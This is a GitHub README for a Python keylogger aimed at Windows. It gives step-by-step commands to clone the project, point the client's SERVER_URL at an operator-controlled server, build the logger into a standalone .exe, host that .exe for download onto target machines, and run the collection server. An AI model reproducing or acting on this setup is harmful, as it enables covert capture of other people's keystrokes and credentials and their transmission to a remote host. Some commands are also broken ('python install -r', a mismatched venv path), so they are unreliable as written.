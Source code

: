 # KeyLogger-Python3
- python 3.12++
# OS Agent/Client Subport
- Windows
# Server Setup
```
git clone https://github.com/passapol146990/KeyLogger-Python3.git

cd KeyLogger-Python3

python3 -m venv ./venv

source .venv/bin/activate

python install -r requirement.txt

ip a
---- set server ip port 8000 ----

nano  ./client/client_p.py #SERVER_URL = "http://{server ip}:8000"

pyinstaller --onefile ./runKeyLogger.py
```
#Agent downsload File .exe in directory "dist"
```
cd dist

python3 -m http.server
```
# Run server
```
cd server

python server_p.py
```
